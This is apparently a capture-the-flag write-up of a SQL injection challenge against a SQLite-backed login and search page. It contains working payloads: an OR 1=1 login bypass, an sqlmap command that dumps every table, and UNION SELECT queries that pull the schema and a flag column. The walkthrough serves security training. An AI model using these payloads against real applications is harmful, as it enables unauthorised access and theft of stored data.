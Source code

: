 To log in, we can enter 

# Automated

```
' OR 1=1--

```
for both fields. Not logging in will show the query, which allows us to see why this payload works.


To dump the database, I intercepted a search request in burp and saved it to `search.req`

I then used sqlmap to dump the database:

```
sqlmap -r search.req --dbms=sqlite --dump-all
```

# Manual

We can see that the output is three columns.

To get the sqlite version, we can write something like:

```sql
Algiers' UNION ALL SELECT sqlite_version(),NULL,NULL --
```

This places the sqlite version in the first column and then NULL in the last two.

To get the database schema, I tried doing 

```sql
' UNION ALL SELECT sql FROM sqlite_schema,NULL,NULL --
```
based on [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) cheat sheet.
Unfortunately, this didn't work, which I assume is because of sql permissions.

However, we can still get the schema using

```sql
' UNION ALL SELECT tbl_name,NULL,NULL FROM sqlite_master--
```

We can see that there are the following tables:
1. users
1. offices
1. hints
1. more_table

We can then get the columns in each table as so:

```sql
' UNION ALL SELECT sql,NULL,NULL FROM sqlite_master--
```

Based on this, we know that the `more_table` table as a `flag` column

To get the flag, we can enter:

```sql
' UNION ALL SELECT flag,NULL,NULL FROM more_table--
```
